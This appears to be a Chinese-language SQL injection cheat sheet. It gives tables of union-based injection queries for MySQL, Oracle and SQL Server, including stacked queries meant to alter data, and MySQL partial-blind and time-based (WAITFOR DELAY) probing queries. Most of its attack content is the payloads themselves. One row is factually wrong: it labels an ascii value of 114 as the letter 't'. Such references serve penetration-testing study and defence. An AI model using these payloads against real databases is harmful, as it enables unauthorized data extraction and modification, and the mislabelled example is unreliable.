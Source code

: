 ### **2、联合查询注入**

基于联合的 SQL 注入允许攻击者通过扩展原始查询返回的结果来从数据库中提取信息。仅当原始 / 新查询具有相同结构（列的数量和数据类型）时，才能使用联合运算符。

#### **MySQL**

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>联合</td><td align="center">SELECT "mysql" UNION SELECT @@version</td></tr><tr><td>联合子查询</td><td align="center">SELECT "mysql" UNION (select @@version)</td></tr><tr><td>联合 null&nbsp;<br>注意：如果原始查询返回多个列，则添加 null 以等于列数</td><td align="center">SELECT "mysql","test" UNION SELECT @@version,null</td></tr><tr><td>堆叠查询&nbsp;<br>注意：堆叠查询并不总是返回结果，因此它们最适合用于更新 / 修改数据的注入。</td><td align="center">SELECT "mysql"; INSERT INTO 'docs' ('content') VALUES ((SELECT @@version))</td></tr></tbody></table>

#### **Oracle**

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>联合</td><td align="center">SELECT user FROM dual UNION SELECT * FROM v$version</td></tr><tr><td>联合子查询</td><td align="center">SELECT user FROM dual UNION (SELECT * FROM v$version)</td></tr><tr><td>联合 null&nbsp;<br>注意：如果原始查询返回多个列，则添加 null 以等于列数</td><td align="center">SELECT user,dummy FROM dual UNION (SELECT banner,null FROM v$version)</td></tr></tbody></table>

#### **SQL Server**

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>联合</td><td align="center">SELECT user UNION SELECT @@version</td></tr><tr><td>联合子查询</td><td align="center">SELECT user UNION (SELECT @@version)</td></tr><tr><td>联合 null<br>注意：如果原始查询返回多个列，则添加 null 以等于列数</td><td align="center">SELECT user,system_user UNION (SELECT @@version,null)</td></tr><tr><td>联合 null 二进制减半&nbsp;<br>注意：此查询用于检测列数。[numberOfColumns] 大于列数则返回错误，从而找到表中列的数目。</td><td align="center">SELECT * FROM yourtable ORDER BY [numberOfColumns]</td></tr><tr><td>堆积式查询&nbsp;<br>注意：堆积式查询并不总是返回结果，因此它们最适合用于更新 / 修改数据的注入。</td><td align="center">SELECT @@version; SELECT @@version --</td></tr></tbody></table>

### **3、盲注**

盲注是更高级的注入方法之一。部分盲和全盲方法详述如下。执行这些查询时要小心，因为如果通过大量自动化执行，它们可能会使服务器过载。

#### **MySQL**

##### **部分盲**

部分盲注是指返回 HTTP 状态代码或 HTML 响应中的其他标记的查询，他们指示真或假陈述。下面的查询将试图通过在猜测的信息上声明真实或错误的响应来利用注入。真或假查询也可以通过返回 1（真）或 0（假）行来识别。一个错误也可以用来标识 0（False）。

<table width="677"><thead><tr><th>描述</th><th align="center">语句</th></tr></thead><tbody><tr><td>版本是 5.xx</td><td align="center">SELECT substring(version(),1,1)=5</td></tr><tr><td>子选择启用</td><td align="center">SELECT 1 AND (select 1)=1</td></tr><tr><td>表 log_table 存在</td><td align="center">SELECT 1 AND (select 1 from log_table limit 0,1)=1</td></tr><tr><td>列 message 存在于表 log_table 中&nbsp;<br>注意：如果列不存在，则查询应该出错</td><td align="center">SELECT message FROM log_table LIMIT 0,1</td></tr><tr><td>第一条 message 的第一个字母是 t</td><td align="center">SELECT ascii(substring((SELECT message from log_table limit 0,1),1,1))=114</td></tr></tbody></table>

##### 将部分盲查询转换为全盲查询

```
IF exists(\*PARTIAL\_BLIND\_QUERY\*) WAITFOR DELAY '00:00:02'
```
